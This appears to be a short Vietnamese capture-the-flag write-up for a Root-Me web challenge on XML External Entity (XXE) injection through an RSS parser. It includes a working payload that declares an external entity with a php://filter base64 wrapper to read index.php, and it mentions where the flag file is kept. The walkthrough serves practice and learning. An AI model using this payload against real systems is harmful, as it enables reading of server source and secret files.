




Challenge: http://challenge01.root-me.org/web-serveur/ch29/

Đầu tiên search thử về XML RSS và lấy 1 đoạn ví dụ của w3 đưa vào pastebin test thử: 
```
<?xml version="1.0" encoding="UTF-8" ?>

<rss version="2.0">
<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>abc</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```

Kết quả: 


Tìm thêm về lỗi của xml ta biết là nó có thể lấy thông tin vào biến ở phần `<!DOCTYPE`:




Bây giờ ta sẽ lấy file index.php:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<rss version="2.0">
<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>&example;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```



[Code](index.php)

thì ta biết được file flag nằm ở `.passwod`
